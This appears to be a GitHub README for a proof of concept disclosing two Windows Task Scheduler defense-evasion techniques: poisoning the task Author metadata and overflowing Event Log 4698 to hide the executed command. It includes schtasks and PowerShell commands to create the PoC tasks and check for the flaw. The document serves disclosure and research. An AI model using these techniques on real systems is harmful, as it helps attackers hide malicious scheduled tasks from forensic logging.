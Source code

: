 # Task Scheduler Logs Poisoning & Tampering
By [Ruben Enkaoua](https://x.com/rubenlabs) and [Cymulate](https://cymulate.com/)
<br>
<br>
[Original Blog: Task Scheduler New Vulnerabilities](https://cymulate.com/blog/task-scheduler-new-vulnerabilities-for-schtasks-exe/)
<br>
<br>

#### Description
<br>
Two new Defense Evasion techniques have been discovered.<br><br>
The first vulnerability is affecting the Task metadatas and the Event Log 4698 "Task Created", allowing an attacker to create a task based on an XML file and poison the "Author" entry to arbitrary data.<br>
The second vulnerability allows to leverage an unlimited allocated buffer in "Author" task metadata, which is handled further by the Windows Event Log, overwriting the whole log description.
<br>
<br>

#### Requirements
<br>

- Batch Logon rights on the Task Principal for the task to run (Otherwise the metadata / event log is poisoned / overwritten but the task won't run)
- The password of the task principal, if the user creating the task is not admin or doesn't have SeImpersonate privileges
<br>

#### Command
<br>

> Task Poisoning (Metadata / Event Log)
```bash
# Run the script to check if the INJECTED-DATA author name has been set in the task description
schtasks /create /tn poc /xml poc-poisoning.xml /ru <username> /rp <password> /f

# Check if the data has been injected by querying the task. If the author name is INJECTED-DATA the target is vulnerable
schtasks /query /tn poc /xml | findstr /i author
```
<br>

> Task Event Log Overflow
```bash
# Run the script to check if the +3500 bytes payload has been injected in the 4698 Event Log
# If the Log Type is not activated on your machine and you still want to test it, activate it in:
# Local Security Policy -> Advanced Audit Policy Configuration -> System Audit Policies - Local Group Policy Object -> Object Access -> Audit Other Object Access Events -> Select Success
schtasks /create /tn poc /xml poc-overflow.xml /ru <username> /rp <password> /f
```
<br>

> Log Check
```bash
# Check the task log by running the following powershell command. If the <RegistrationInfo> tag is containing a 3500 bytes buffer but not the command executed and the arguments, the target is vulnerable.
Get-WinEvent -FilterHashtable @{LogName='Security'; Id=4698} | Where-Object { $_.Message -like '*poc*' } |  Select-Object -First 1 | Format-List TimeCreated, Message
```
<br>

#### Notes
<br>
This code is for educational and research purposes only.<br>
The author takes no responsibility for any misuse of this code.
